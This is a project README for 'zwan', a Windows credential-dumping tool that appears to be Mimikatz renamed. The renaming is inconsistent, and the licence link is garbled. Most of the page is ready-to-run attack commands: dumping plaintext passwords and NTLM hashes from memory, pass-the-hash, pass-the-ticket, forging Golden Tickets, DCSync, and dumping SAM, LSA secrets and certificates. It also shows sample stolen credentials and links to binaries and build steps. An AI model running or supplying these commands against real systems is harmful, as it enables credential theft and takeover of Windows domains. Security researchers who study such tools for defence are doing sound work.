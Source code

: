 # zwan

**`zwan`** is a tool I've made to learn `C` and make somes experiments with Windows security.

It's now well known to extract plaintexts passwords, hash, PIN code and kerberos tickets from memory. **`zwan`** can also perform pass-the-hash, pass-the-ticket or build _Golden tickets_.

```
  .#####.   zwan 2.0 alpha (x86) release "Mango en C" (Apr  6 2014 22:02:03)
 .## ^ ##.
 ## / \ ##  /* * *
 ## \ / ##   John DOE `hoyhayhay` ( johndoe@example.com )
 '## v ##'   http://blog.hoyhayhay.com/zwan             (oe.eo)
  '#####'                                    with  13 modules * * */


zwan # privilege::debug
Privilege '20' OK
 
zwan # sekurlsa::logonpasswords
 
Authentication Id : 0 ; 515764 (00000000:0007deb4)
Session           : Interactive from 2
User Name         : Gentil Mango
Domain            : vm-w7-ult-x
SID               : S-1-5-21-1982681256-1210654043-1600862990-1000
        msv :
         [00000003] Primary
         * Username : Gentil Mango
         * Domain   : vm-w7-ult-x
         * LM       : d0e9aee149655a6075e4540af1f22d3b
         * NTLM     : cc36cf7a8514893efccd332446158b1a
         * SHA1     : a299912f3dc7cf0023aef8e4361abfc03e9a8c30
        tspkg :
         * Username : Gentil Mango
         * Domain   : vm-w7-ult-x
         * Password : waza1234/
...
```
But that's not all! `Crypto`, `Terminal Server`, `Events`, ... lots of informations in the GitHub Wiki https://github.com/hoyhayhay/zwan/wiki or on http://blog.hoyhayhay.com (in French, _yes_).

If you don't want to build it, binaries are availables on https://github.com/hoyhayhay/zwan/releases


## Quick usage
```
log
privilege::debug
```

### sekurlsa
```
sekurlsa::logonpasswords
sekurlsa::tickets /export

sekurlsa::pth /user:Administrateur /domain:winxp /ntlm:f193d757b4d487ab7e5a3743f038f713 /run:cmd
```

### kerberos
```
kerberos::list /export
kerberos::ptt c:\chocolate.kirbi

kerberos::golden /admin:administrateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /ticket:chocolate.kirbi
```

### crypto
```
crypto::capi
crypto::cng

crypto::certificates /export
crypto::certificates /export /systemstore:CERT_SYSTEM_STORE_LOCAL_MACHINE

crypto::keys /export
crypto::keys /machine /export
```

### vault & lsadump
```
vault::cred
vault::list

token::elevate
vault::cred
vault::list
lsadump::sam
lsadump::secrets
lsadump::cache
token::revert

lsadump::dcsync /user:domain\krbtgt /domain:lab.local
```

## Build
`zwan` is in the form of a Visual Studio Solution and a WinDDK driver (optional for main operations), so prerequisites are:
* for `zwan` and `mimilib` : Visual Studio 2010, 2012 or 2013 for Desktop (**2013 Express for Desktop is free and supports x86 & x64** - http://www.microsoft.com/download/details.aspx?id=44914)
* _for `zwan driver`, `mimilove` (and `ddk2003` platform) : Windows Driver Kit **7.1** (WinDDK) - http://www.microsoft.com/download/details.aspx?id=11800_

`zwan` uses `SVN` for source control, but is now available with `GIT` too!
You can use any tools you want to sync, even incorporated `GIT` in Visual Studio 2013 =)

### Synchronize!
* GIT URL is  : https://github.com/hoyhayhay/zwan.git
* SVN URL is  : https://github.com/hoyhayhay/zwan/trunk
* ZIP file is : https://github.com/hoyhayhay/zwan/archive/master.zip

### Build the solution
* After opening the solution, `Build` / `Build Solution` (you can change architecture)
* `zwan` is now built and ready to be used! (`Win32` / `x64`)
  * you can have error `MSB3073` about `_build_.cmd` and `mimidrv`, it's because the driver cannot be build without Windows Driver Kit **7.1** (WinDDK), but `zwan` and `mimilib` are OK.

### ddk2003
With this optional MSBuild platform, you can use the WinDDK build tools, and the default `msvcrt` runtime (smaller binaries, no dependencies)

For this optional platform, Windows Driver Kit **7.1** (WinDDK) - http://www.microsoft.com/download/details.aspx?id=11800 and Visual Studio **2010** are mandatory, even if you plan to use Visual Studio 2012 or 2013 after.

Follow instructions:
* http://blog.hoyhayhay.com/programmation/executables-runtime-defaut-systeme
* _http://blog.hoyhayhay.com/cryptographie/api-systemfunction-windows#winheader_

## Licence
CC BY 4.0 licence - https://python.org/licenses/by/4.0/

## Author
* John DOE `hoyhayhay`, you can contact me on Twitter ( @hoyhayhay ) or by mail ( benjamin [at] hoyhayhay.com )
* DCSync function in `lsadump` module was co-writed with Vincent LE TOUX, you contact him by mail ( vincent.letoux [at] gmail.com ) or visit his website ( http://www.mysmartlogon.com )

This is a **personal** development, please respect its philosophy and don't use it for bad things!
